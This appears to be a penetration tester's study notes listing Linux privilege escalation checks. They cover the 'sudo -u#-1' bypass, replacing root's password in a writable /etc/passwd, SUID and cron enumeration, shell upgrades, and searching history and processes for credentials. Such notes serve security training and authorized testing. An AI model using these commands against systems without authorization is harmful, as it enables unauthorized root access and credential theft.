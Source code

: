 # 03a. Linux Privilege Escalation
## Resources
- [Hacktricks Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- [GTFOBins](https://gtfobins.github.io/)
- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)
- [[Linux Privilege Escalation]]

## Low Hanging Fruit

**User with valid credentials (sudo -l):**
- `sudo -l` to see what binaries you can run with `sudo`, head over to [GTFOBins](https://gtfobins.github.io/)
- `sudo -V` to get version, below 1.28 can use `sudo -u#-1 /bin/bash`

**SUID Binaries**
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -perm -4000 2>/dev/null`
- Head over to  [GTFOBins](https://gtfobins.github.io/)

**Kernel Exploits:**
- `uname -a` && `searchsploit`
- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)
- `~/exploits` and Privilege Escalation notes

**Writable /etc/passwd**
- `ls -la /etc/passwd` to see if you have write permissions
- `openssl passwd -1 -salt hacker hacker` and replace `root` password entry (or delete `x`)
- `su root` `hacker` 

## Checklist

- **Upgrade your shell** if it's not fully interactive
	- `python -c 'import pty;pty.spawn("/bin/bash")'`

  - `python -c 'import pty;pty.spawn("/bin/sh")'`

  - `python3 -c 'import pty;pty.spawn("/bin/bash")'`

  - `python3 -c 'import pty;pty.spawn("/bin/sh")'`

- **Get system context** current user, hostname, groups
	- `whoami` `id` `hostname`
- **Get kernel version && check for vulnerability** 
	- `uname -a` && `searchsploit`
- **Check for sudo (valid password)** 
	- `sudo -l` `sudo -V` (below 1.28 `sudo -u#-1 /bin/bash`)
- **Check for SUID Binaries**
	- `find / -perm -u=s -type f 2>/dev/null`
	- `find / -perm -4000 2>/dev/null`
- **Check for users && writable /etc/passwd**
	- `ls -la /etc/passwd` `cat /etc/passwd`
- **Check environment**
	- `echo $PATH` `(env || set) 2>/dev/null` `history` `cat ~/.bashrc`
- **Check processes**
	- `ps aux` `ps -ef` `watch -n 1 "ps -aux | grep pass"`
- **Check cronjobs**
	- `ls -lah /etc/cron*` `cat /var/log/syslog | grep cron` `cat /var/log/cron.log`
	- `grep "CRON" /var/log/syslog` `ls -la /etc/cron.d` `ls -la /etc/cron.hourly`
- **Check your writable/usable files & file permissions**
	- `find / -writable -type d 2>/dev/null`
	- `find / -perm -u=s -type f 2>/dev/null`
	- `ls -la`
- **Check networking & services running on localhost**
	- `ip a` `netstat` `ss -anp`
